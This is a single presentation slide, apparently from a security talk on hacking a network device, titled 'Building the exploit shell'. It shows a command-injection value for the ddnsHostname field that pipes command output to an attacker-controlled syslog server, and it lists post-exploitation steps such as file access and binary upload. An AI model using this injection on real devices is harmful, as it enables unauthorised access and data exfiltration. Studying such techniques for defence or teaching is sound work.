

# Building the exploit shell
Configure the attackers IP as remote syslogd
This can be done through the Web interface
Listen on UDP port 514 for syslog messages.
Using command injection pass output to syslog
ddnsHostname=|logger -p 0 ”`ls /bin`”
String will send output of ‘ls /bin’ to remote syslog
Pseudo-interactive shell allows for better attacks.
Once we have a shell we maybe able to view files
Upload/Download binaries
Explore the device configuration & settings